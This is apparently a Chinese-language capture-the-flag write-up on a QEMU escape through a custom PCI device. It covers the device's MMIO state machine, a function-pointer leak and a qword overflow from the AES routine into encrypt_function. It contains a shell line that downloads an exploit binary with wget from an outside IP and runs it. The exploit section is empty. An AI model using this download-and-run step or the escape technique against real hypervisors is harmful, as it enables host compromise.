

# QWCT
qemu escape

## device

with qwb
```bash
# lspci
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e
00:01.1 Class 0101: 8086:7010
00:02.0 Class 0300: 1234:1111
00:01.0 Class 0601: 8086:7000
00:04.0 Class 00ff: 1234:8848
```

## knowledge
`edu.c`改的`mmio`

涉及的数据结构：
```C
struct QwbState
{
  PCIDevice_0 pdev;
  MemoryRegion_0 mmio;
  QemuThread_0 thread;
  QemuMutex_0 crypto_statu_mutex;
  QemuMutex_0 crypto_buf_mutex;
  crypto_status crypto;
};
```
其中`crypto`
```C
struct crypto_status
{
  __uint64_t statu;
  __u_char crypt_key[2048];
  __u_char input_buf[2048];
  __u_char output_buf[2048];
  _Bool (*encrypt_function)(__u_char *, __u_char *, __u_char *);
  _Bool (*decrypt_function)(__u_char *, __u_char *, __u_char *);
};
```

## 逻辑
分`read`和`write`
### read
- 0 init (status 5非法) ->0
- 1 set status 0->3, 2->3
- 2 set status 0->1, 4->1
- 3 set status 3->4
- 4 set status 1->2
- 5 set aes_encrypt_function(status 2)
- 6 set aes_decrypto_function(status 2)
- 7 同 5
- 8 同 6
- 9 enc(status 2) 2->5 6
- A dec(status 2) 2->7 8
- default

### write
- addr 0,0x1800 (status 3)
- addr 18000, 28000 (status 1)

## leak
可以看到`output_buf`和`encrypt_function`是靠在一起的，

读`output`的时候，对地址进行判断
```C
v18 = strlen((const char *)opaque->crypto.output_buf);
v19 = v17 == 1;
v20 = v17 == 1;
if ( addr < v18 + 0x3000 && v19 )
```
所以填满`output_buf`，采用`stream`加密即可

## vuln
在`aes_encrypt_function`中
```C
    while ( v18 != v5 );
    // 省略
  {
    v25 = 0LL;
  }
  *(_QWORD *)&o_v4[v7] = v25;
  return 1;
```
最后会在`output_buf`输出末尾加上`qword`，如果`output_buf`满的，那么就可以写`qwb->encrypt_function`指针

tips: `status`为0的时候不会清楚`encrypt`和`decrypt`函数指针。


```bash
rm exp_io
wget http://177.168.76.2:8000/exp_io
chmod +x exp_io
./exp_io

b qwb_mmio_read
```
其在`aes`加密之后，还8字节的进行异或，这里需要一定的计算


```gdb
b aes_encrypt_function

8bytes = [8bytes list] ^ [8bytes list] ....
output_buf append 8bytes
```


## exp


